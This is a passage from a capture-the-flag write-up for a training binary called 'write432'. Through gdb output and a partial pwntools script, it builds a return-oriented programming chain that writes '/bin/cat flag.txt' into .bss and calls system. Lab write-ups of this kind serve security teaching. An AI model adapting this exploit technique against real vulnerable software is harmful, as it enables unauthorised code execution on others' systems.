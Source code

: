 ```

Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) nexti
0x08048672 in usefulGadgets ()
(gdb) x/s 0x0804a040
0x804a040 <stderr@@GLIBC_2.0>:  "/bin/cat flag.txt"
```
It worked! Now I just need to call `system` and have the address of the `.bss` section in the `edi` register.
I decided to take a look at `usefulFunction` because that might have a call to `system`.
```
$ gdb ./write432 -q
Reading symbols from ./write432...(no debugging symbols found)...done.
(gdb) disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0804864c <+0>:     push   %ebp
   0x0804864d <+1>:     mov    %esp,%ebp
   0x0804864f <+3>:     sub    $0x8,%esp
   0x08048652 <+6>:     sub    $0xc,%esp
   0x08048655 <+9>:     push   $0x8048754
   0x0804865a <+14>:    call   0x8048430 <system@plt>
   0x0804865f <+19>:    add    $0x10,%esp
   0x08048662 <+22>:    nop
   0x08048663 <+23>:    leave  
   0x08048664 <+24>:    ret    
End of assembler dump.
```
Looks like `system` is at `0x8048430`. perfect.
I modified my exploit to make it pop the address of `.bss` into `edi` and then call `system`. Here is what it looks like
```python
from pwn import *

pop_2 = p32(0x080486da) # pop edi; pop ebp; ret
mov = p32(0x08048670) # mov DWORD PTR [edi],ebp
bss_addr = 0x0804a040
system_addr = p32(0x8048430)

payload = 'A'*44
#first write
payload += pop_2
payload += p32(bss_addr)
payload += p32(0x6e69622f) # "/bin"
payload += mov

#second write
payload += pop_2
payload += p32(bss_addr+0x4)
payload += p32(0x7461632f) # "/cat"
payload += mov

#third write
payload += pop_2
payload += p32(bss_addr+0x8)
payload += p32(0x616c6620) # " fla"
payload += mov

#fourth write
payload += pop_2
payload += p32(bss_addr+0xc)
```